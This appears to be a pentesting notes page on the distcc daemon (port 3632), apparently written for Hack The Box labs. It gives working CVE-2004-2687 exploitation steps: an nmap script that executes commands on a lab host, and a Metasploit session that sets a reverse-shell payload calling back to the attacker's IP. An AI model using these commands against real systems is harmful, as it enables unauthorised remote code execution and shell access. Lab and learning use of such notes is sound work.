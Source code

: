 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DISTCC (3632)

## Information

[`distcc`](https://www.distcc.org/) is a distributed compilation tool that allows code to be compiled across multiple machines in a network with the goal of significantly reducing compilation time via workload distribution.

## Exploitation

Based on [CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687).

{% tabs %}
{% tab title="Nmap" %}
{% code overflow="wrap" %}
```bash
sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
```bash
# Launching metasploit console
msfconsole -q
# Selecting the module
msf6 > use exploit/unix/misc/distcc_exec
[*] No payload configured, defaulting to cmd/unix/reverse_bash
# Checking configuration options
msf6 exploit(unix/misc/distcc_exec) > show options
# Configuring the required variables
msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST tun0
LHOST => 10.10.14.22
# Executing the exploit
msf6 exploit(unix/misc/distcc_exec) > run
```
{% endtab %}
{% endtabs %}

For an example of exploiting `distcc` see [Lame](../../boxes/boxes/easy/lame.md).
